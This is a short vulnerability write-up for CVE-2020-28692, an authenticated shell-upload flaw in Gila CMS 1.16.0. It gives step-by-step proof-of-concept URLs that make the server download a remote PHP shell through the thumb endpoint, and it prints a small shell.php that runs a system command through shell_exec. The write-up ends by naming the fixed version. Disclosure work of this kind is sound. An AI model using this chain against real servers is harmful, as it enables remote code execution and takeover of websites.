 ```yaml
---
layout: post
title:  "Gila-CMS-1.16.0-shell-upload (CVE-2020-28692)"
date:   2020-11-17

categories: Writeup, CVE
---
```


Author: jkana

# POC
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** .For example

```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess** :

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example

```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/** .

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

# How to fix

Update to **Gila CMS 1.16.1**

# shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

